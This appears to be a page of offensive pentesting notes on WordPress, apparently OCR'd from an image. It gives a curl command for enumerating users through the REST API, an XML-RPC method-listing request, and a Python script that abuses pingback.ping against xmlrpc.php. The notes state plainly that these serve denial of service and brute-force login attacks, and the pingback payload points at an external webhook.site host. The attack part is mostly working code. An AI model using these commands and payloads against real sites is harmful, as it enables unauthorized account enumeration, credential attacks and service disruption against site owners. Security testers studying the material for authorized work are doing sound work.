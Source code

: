 ## Enumerate Users Manually

first manually review posts posted by users and there you can see who posted the post 

another method is get request to /wp-json/wp/v2/users 

```
curl -X GET http://wordpresssite/wp-json/wp/v2/users
```

---

## XMLRPC Attacks

if wordpress have xmlrpc.php in the root directory we can execute rpc calls and can do ddos and bruteforce authentication

construct a post request to /xmlrpc.php
send this as data
```
<methodCall>

<methodName>system.listMethods</methodName>

<params>

</params>

</methodCall>
```

if you see all the methods in the response it means u can call those methods
else stop here and dont try to call any method its waste of time

one method is **pingback.ping**
this can be used to dos the machine
```
import requests
url = "http://127.0.0.1:8080/wordpress/xmlrpc.php"
xmldata = """
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://webhook.site/1b815e97-9911-484a-8ee8-0e75c608fea9/</string></value>
</param>
<param>
<value><string>http://127.0.0.1:8080/wordpress/</string></value>
</param>
</params>
</methodCall>
"""
r = requests.post(url,data=xmldata)
print(r.text)
```
